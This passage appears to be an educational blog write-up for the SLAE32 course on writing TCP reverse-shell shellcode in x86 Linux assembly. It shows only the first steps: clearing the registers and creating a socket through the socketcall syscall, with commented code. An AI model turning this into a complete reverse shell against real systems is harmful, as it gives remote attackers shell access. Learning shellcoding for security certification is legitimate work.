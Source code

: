 ```yaml
---
title: SLAE32 Assignment 2 -- TCP Reverse Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - reverse
  - Shell
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.png)

## 1. Clear the registers.
```nasm 
	xor eax, eax	; Clear EAX Register. EAX = 0x00000000
	xor ebx, ebx	; Clear EBX Register. EBX = 0x00000000
	xor ecx, ecx	; Clear ECX Register. ECX = 0x00000000
	xor edx, edx	; Clear EDX Register. EDX = 0x00000000
```  

## 2. Create the Socket.
Create Socket C Function: `int socket(int domain, int type, int protocol);`  
Our C Function:
```c
            socket(PF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
EAX=0x66     EBX    ECX[0]     ECX[1]      ECX[2]
```  

```console
cat /usr/src/linux-headers-$(uname -r)/include/linux/net.h
    SOCK_STREAM     = 1
cat /usr/include/i386-linux-gnu/bits/socket.h
		#define AF_INET         PF_INET    // We see that AF_INET is mapped to PF_INET	
		#define PF_INET         2          // IP protocol family.
```  

```nasm
  mov al, 0x66     ; EAX = 0x66 = 102. SYSCAL 102 = socketcall
  mov bl, 0x1      ; EBX = 0x1 = socket() // Create a socket
  push ecx         ; ECX[2] = int protocol = 0. Pushes 0x0 onto the stack
  push ebx         ; ECX[1] - int type = SOCK_STREAM = 0x1. Pushes 0x1 onto the stack
  push 0x2         ; ECX[0] - int domain = AF_INET = PF_INET = 0x2. Pushes 0x2 onto the stack
  mov ecx, esp     ; Point the ECX Register to the Top of the stack
  int 0x80         ; Execute the socket() System Call
  mov esi, eax     ; save the "sockfd" generated from the socket above 
```
